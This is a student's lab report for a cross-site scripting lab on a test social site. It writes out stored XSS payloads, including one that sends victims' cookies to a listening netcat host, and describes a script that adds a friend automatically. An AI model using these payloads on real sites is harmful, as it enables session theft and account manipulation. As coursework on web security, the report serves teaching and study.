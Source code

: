 ## Lab05

- Michael Muffoletto (q91w347)
- CSCI 476/594
- muffmike1@gmail.com
- 3/21/21

# Task 1
For this task I was able to successfully post a malicious message to display an alert Window by firstly logging into Boby's account, then navigating to the his brief description tab and posting <script>alert('XSS');</script> in that box. After that was saved, I then logged into Alice's account and when navigating to the Members tab the attack executed.   
![Screen Shot 2021-03-28 at 1 54 29 PM](https://user-images.githubusercontent.com/33213355/112766087-76da0780-8fcd-11eb-8cf6-347ce569eece.png)   
  
![Screen Shot 2021-03-28 at 1 55 09 PM](https://user-images.githubusercontent.com/33213355/112766137-9b35e400-8fcd-11eb-9feb-94e74c3314d2.png)   

# Task 2
For this task I was able to successfully post a malicious message ti display cookies by logging into Bobys's account, then navigating to his brief description tab and posting <script>alert(document.cookie);</script> into that box. Then I logged into Alice's account and when navigating to Bobys profile via the Members tab the message was executed.   
![Screen Shot 2021-03-28 at 2 02 08 PM](https://user-images.githubusercontent.com/33213355/112766347-9de50900-8fce-11eb-9d9d-93cd1f3085d7.png)   
![Screen Shot 2021-03-28 at 2 02 44 PM](https://user-images.githubusercontent.com/33213355/112766353-a3daea00-8fce-11eb-8b24-7244716ba9b3.png)   

# Task 3
I was able to successfully get a user's cookies sent to my machine by firstly logging into boby's account and changing his brief description box to <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>. Then I used the nc -lknv 5555 command in my terminal in order to listen and recieve the output of the attack. After that I logged into alice's account and when navigating to boby's profile, the netcat command outputed alice's cookies to my machine.   
![Screen Shot 2021-03-28 at 2 12 44 PM](https://user-images.githubusercontent.com/33213355/112766872-fa492800-8fd0-11eb-85ab-1b43f9e250e0.png)   
<img width="621" alt="Screen Shot 2021-03-28 at 2 15 45 PM" src="https://user-images.githubusercontent.com/33213355/112766880-003f0900-8fd1-11eb-9142-e914873eec52.png">   

# Task 4
I was able to successfully make it to where when anybody visits samy's profile page, he is automatically added as a friend to the vistiors friendslist. I did this by firstly using HTTP Header live and logging into a different user and adding samy as a friend while looking at the information on the HTTP Header application. I was able to understand that when samy was added, there was a GET request with the value of 59. I learned that in this request samy's friend value was 59 and I saw that ts and token values were preset as well. I constructed my HTTP request as var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token. After logging into samys account, I pasted the js attack into his about me tab and tested my attack by logging into alice's account. After logging into her account I went to samys page and without pressing the add friend button, when I navigated to her friends tab Samy was on the list, making my attack successful.   
![Screen Shot 2021-03-28 at 2 34 35 PM](https://user-images.githubusercontent.com/33213355/112767638-2a92c580-8fd5-11eb-910b-146d91df0d4b.png)   
![Screen Shot 2021-03-28 at 2 42 05 PM](https://user-images.githubusercontent.com/33213355/112767646-34b4c400-8fd5-11eb-8984-498187ea6657.png)   
<img width="781" alt="Screen Shot 2021-03-28 at 2 43 43 PM" src="https://user-images.githubusercontent.com/33213355/112767669-4b5b1b00-8fd5-11eb-8c9a-b6a11efaf0b7.png">   
![Screen Shot 2021-03-28 at 2 43 09 PM](https://user-images.githubusercontent.com/33213355/112767656-3ed6c280-8fd5-11eb-8e54-8bd31d43841e.png)   
